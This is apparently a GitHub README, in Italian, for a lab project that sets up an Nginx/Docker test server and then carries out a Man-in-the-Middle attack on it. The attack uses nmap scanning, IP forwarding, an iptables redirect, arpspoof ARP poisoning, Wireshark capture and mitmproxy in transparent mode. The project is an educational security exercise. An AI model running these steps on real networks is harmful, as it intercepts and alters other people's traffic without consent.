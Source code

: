 # Attacco Man-in-the-Middle tramite ARP spoofing
Questo progetto esplora tecniche di attacco Man-in-the-Middle tramite ARP spoofing, con l'obiettivo di intercettare, analizzare e modificare il traffico di rete tra un client e un server.

- [Configurazione del server](#1-configurazione-del-server)
- [Configurazione del MitM](#2-Configurazione-del-MitM)

Want to read this in [English](README_EN.md)?

## 1. Configurazione del server

### 1.1 Installazione di Nginx

```
$ sudo apt install nginx -y
```

### 1.2 Generazione del certificato self-signed
Creare una directory per i certificati SSL:

```
$ sudo mkdir -p /etc/nginx/ssl
```


Generare un certificato self-signed con OpenSSL:

```
$ sudo openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
-keyout /etc/nginx/ssl/nginx-selfsigned.key \
-out /etc/nginx/ssl/nginx-selfsigned.crt
```

**Descrizione dei parametri**:
- `-x509`: crea un certificato in formato x509.
- `-nodes`: disabilita la richiesta di una passphrase per la chiave privata.
- `-days 365`: imposta la durata del certificato a 365 giorni.
- `-newkey rsa:2048`: genera una nuova chiave RSA a 2048 bit.

### 1.3 Configurazione di Nginx

```
$ sudo nano /etc/nginx/sites-available/default
```

Aggiungere la seguente configurazione, sostituendo `<IP_addr>` con l'indirizzo IP del server:

```
server {
    listen 80 default_server;
    listen [::]:80 default_server;
    server_name <IP_addr>;

    # Reindirizzamento da HTTP a HTTPS
    return 301 https://$host$request_uri;
}

server {
    listen 443 ssl;
    server_name <IP_addr>;

    ssl_certificate /etc/nginx/ssl/nginx-selfsigned.crt;
    ssl_certificate_key /etc/nginx/ssl/nginx-selfsigned.key;

    location / {
        proxy_pass http://localhost:8080;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
```

### 1.4 Verifica e riavvio di Nginx
Verificare la configurazione e riavviare il servizio:

```
$ sudo nginx -t
$ sudo systemctl restart nginx
```

### 1.5 Avvio dei container Docker
Clonare la repository e avviare i container:

```
$ git clone https://github.com/SenapeDev/MitM-ARPspoofing.git
$ cd server
$ docker compose up --build -d
```

### 1.6 Gestione della modalità HTTPS
Per attivare o disattivare HTTPS tramite Makefile:

```
$ make https-on
$ make https-off
```
- `https-on`: attiva il reindirizzamento verso HTTPS.
- `https-off`: disattiva il reindirizzamento HTTPS, tornando a HTTP.
---

## 2. Configurazione del MitM

### 2.1 Installazione di Nmap

```
$ sudo apt install nmap -y
```

### 2.2 Scansione della rete locale con Nmap
Per trovare gli indirizzi l'indirizzo IP dell'host che ospita il sito web all'interno della rete locale, eseguire:

```
$ nmap -p 80,443 --open -sV <IP_range>
```

**Descrizione dei parametri**:
- `-sV` rileva i servizi attivi e tenta di identificare l’applicazione web in esecuzione.
- `--open` mostra solo gli host con porte aperte.
- `<IP_range>` è il range degli indirizzi IP in cui viene effettuata la scansione.

### 2.3 Abilitazione del packet forwarding
Abilitare il packet forwarding per consentire la ritrasmissione dei pacchetti tra server e vittima:

```
# echo 1 > /proc/sys/net/ipv4/ip_forward
```

### 2.4 Configurazione di iptables per la redirezione del traffico
Reindirizzare il traffico HTTP verso la porta 8080 (utilizzata da `mitmproxy`):

```
$ sudo iptables -t nat -A PREROUTING -p tcp -s <src_IP> --dport 80 -j REDIRECT --to-port 8080
```

Questo comando utilizza la tabella `nat` di iptables per redirigere il traffico destinato alla porta 80 all’indirizzo specificato, verso la porta 8080. Le modifiche non sono permanenti e saranno rimosse al riavvio.

### 2.5 Verifica delle regole impostate
Per verificare le regole `iptables` attive:

```
$ sudo iptables -t nat -L -v -n
```

Il comando elenca tutte le regole impostate nella tabella `nat` di iptables con dettagli (`-v`) e senza risoluzione di nomi (`-n`).

### 2.6 Installazione di dsniff
Installare `dsniff` per eseguire l’ARP spoofing:

```
$ sudo apt install dsniff
```

### 2.7 Esecuzione di ARP Poisoning
Utilizzare `arpspoof` per ingannare la vittima e farle credere di comunicare con il server:

```
# arpspoof -i <interface> -t <src_IP> <dest_IP>
```

Questo comando invia pacchetti ARP all'indirizzo IP della vittima (`<src_IP>`) per impostare l'indirizzo `<dest_IP>` (il server impersonato) come mittente, sfruttando l'interfaccia di rete specificata (`<interface>`).

### 2.8 Installazione di Wireshark
Per catturare e analizzare il traffico di rete, installare Wireshark:

```
$ sudo apt install wireshark -y
```


### 2.9 Intercettazione di pacchetti con Wireshark
Avviare Wireshark per catturare il traffico:

```
$ sudo wireshark
```

### 2.10 Installazione di mitmproxy
Installare `mitmproxy` per manipolare le richieste:

```
$ pip install mitmproxy
```

### 2.11 Installazione dello script per mitmproxy
```
$ git clone https://github.com/SenapeDev/MitM-ARPspoofing.git
```
### 2.12 Intercettazione e modifica delle richieste con mitmproxy
Eseguire `mitmproxy` in modalità trasparente per intercettare e modificare il traffico HTTP:

```
$ cd mitm
$ mitmproxy -s main.py --mode transparent
```

Questo comando avvia `mitmproxy` in modalità trasparente (`--mode transparent`) per intercettare il traffico senza configurazioni sul client.
